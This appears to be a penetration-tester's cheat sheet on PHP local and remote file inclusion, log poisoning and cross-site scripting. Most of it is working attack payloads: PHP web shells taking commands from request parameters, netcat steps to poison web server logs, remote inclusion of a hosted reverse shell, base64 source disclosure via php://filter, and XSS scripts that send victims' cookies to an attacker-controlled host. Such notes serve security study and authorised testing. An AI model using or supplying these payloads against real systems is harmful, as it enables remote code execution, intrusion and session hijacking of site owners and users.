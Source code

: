             /var/log/apache2/access.log:   `nc 1.1.1.1 80, then GET /<?php system($_GET['cmd']);?>`
            /proc/self/environ: use burp (https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) to send malicious url with a modified user-agent
            Windows: `?file=c:\xampp\apache\logs\access.log&cmd=ipconfig   nc -nv 1.1.1.1 80 ,   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
            Email method:  https://bitvijays.github.io/LFC-VulnerableMachines.html
            LFI log contamination tactic: connect w/:  nc -nv 10.11.0.22 80, then send:  <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
            	then:  http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
    RFI:
    	ex. make and host a local evil.txt file:  <?php echo shell_exec($_GET['cmd']); ?>
                http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
        Try shell saved as .txt, .php, etc. - see what type of scripts the site uses
        works if allow_url_fopen and allow_url_include both = On in the file /etc/php5/cgi/php.ini -- php.ini location is seen in phpinfo.php file
		Even if off: possible through SMB in some PHP versions!
        ex. Using reverse.txt php shell:  `?page=http://1.2.3.4/reverse.txt?  OR:  ?page=http://1.2.3.4/reverse.txt%00`
	
	PHP Execution:
		?code=phpinfo()
		?code=system('id'); (if single line output)
		?code=echo shell_exec('/sbin/ifconfig eth0'); (if multiple line output)
 	Manual Log Poisoning:
		Injection Test:
			<?php echo 'system: '; system('whoami'); system($_REQUEST['cmd']); ?><br/>
			<?php echo 'exec: '; echo exec('whoami'); echo exec($_REQUEST['cmd']); ?><br/>
			<?php echo 'shell_exec: '; shell_exec("whoami"); shell_exec($_REQUEST['cmd']); ?><br/>
			<?php echo 'passthru: '; passthru("whoami"); passthru($_REQUEST['cmd']);?>
		Enumeration:
			Dir Walk:  Request parameter: <?php echo print_r(scandir($_GET['dir'])); ?>
				Then access:  curl ...&dir=.
			File Read:  <?php include($_GET['file']);?>
				PHP files:  curl ...&file=php://filter/convert.base64-encode/resource=admin.php
		Write File:  ex. <?php $f = "MHhkZiB3..."; file_put_contents("HACKED.txt", base64_decode($f)); ?>
 
 
## Cross-Site Scripting (XSS):  

	If you can execute reflected or stored .js code
	3 types: persistent/stored, reflected, DOM based
        	Stored: look for comments, reviews, user profile, guestbook, contact form, etc.
        	Reflected: search box, etc.
	Checks:
		Cheat Sheet:  https://www.jb51.net/tools/xss.htm
        	Look for unsanitized input that is displayed as output; characters to try:  < > ' " { } ;  -> Check Source Code; see how they're stored
		Try javascript code in all input boxes, username/password (if displays incorrect username), search (if results display the searched keywords) -- or URLs
	Techniques & Payloads:
		Test:  <script>alert("XSS")</script>
			<script>alert(123)</script>
		Script:  <img src="10.10.14.18/test.jpg" /> <script src="http://10.10.14.18/test.js"></script>
		Steal Cookie (if Secure and HTTPOnly flags not set):
			Example 1:  <script>new Image().src="http://10.10.28.40:8000/cool.jpg?output="+document.cookie;</script> ; sudo nc -nvlp 80
			Example 2:  <script>document.location="http://10.10.14.18 username="+document.cookie;</script>
			Example 3:
				function pwn() {
				    var img = document.createElement("img");
				    img.src = "http://10.10.14.18/xss?=" + document.cookie;
				    document.body.appendChild(img);
				}
				pwn();